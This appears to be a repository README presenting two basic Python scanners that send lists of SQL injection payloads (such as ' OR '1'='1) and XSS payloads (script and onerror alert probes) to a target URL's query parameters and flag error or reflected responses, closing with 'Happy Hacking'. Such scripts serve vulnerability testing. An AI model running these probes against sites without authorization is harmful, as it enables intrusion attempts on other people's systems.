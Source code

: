 ===========================================
<BR>
               SQL INJECTION
<BR>
===========================================
Define the URL of the target website:
<br>
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
<br>
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
<br>
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
<br>
test_sql_injection(url, payloads)

===========================================
  <br>
                   XSS
  <br>
===========================================
First, make sure you have the requests library installed. If not, you can install it using pip:
<br>
pip install requests

Explanation:
URL Definition: The URL of the target website is defined as url.
<br>
url = "http://example.com/vulnerable_page.php"

Payloads List: A list of common XSS payloads is defined. These payloads will be tested to see if they are reflected in the response.
<br>
payloads = [
    "<script>alert('XSS')</script>",
    "<img src=x onerror=alert('XSS')>",
    "<svg/onload=alert('XSS')>",
    "';alert('XSS');//",
    "\";alert('XSS');//",
    "<body onload=alert('XSS')>",
    "<iframe src=javascript:alert('XSS')>",
    "<input type='text' onfocus=alert('XSS') autofocus>",
    "<a href='javascript:alert(\"XSS\")'>Click me</a>",
    "<div onmouseover=alert('XSS')>Hover over me</div>"
]

Function Definition (test_xss): This function takes the URL and payloads as parameters and iterates through each payload:
<br>
Construct URL: For each payload, the script constructs a test URL by appending the payload to the query parameter input.
<br>
def test_xss(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?input={payload}"

        try:

Send Request: It sends an HTTP GET request to the constructed URL.
<br>
response = requests.get(test_url)

Check Response: It checks if the payload is reflected in the response text. If it is, it prints a message indicating a potential XSS vulnerability. If not, it prints a message that the payload did not 
trigger an XSS vulnerability.
<br>
if payload in response.text:
                print(f"Potential XSS vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not trigger an XSS vulnerability.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Error Handling: The script includes error handling to catch and print any exceptions that occur during the HTTP request.
<br>
test_xss(url, payloads)

=========================================
SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!
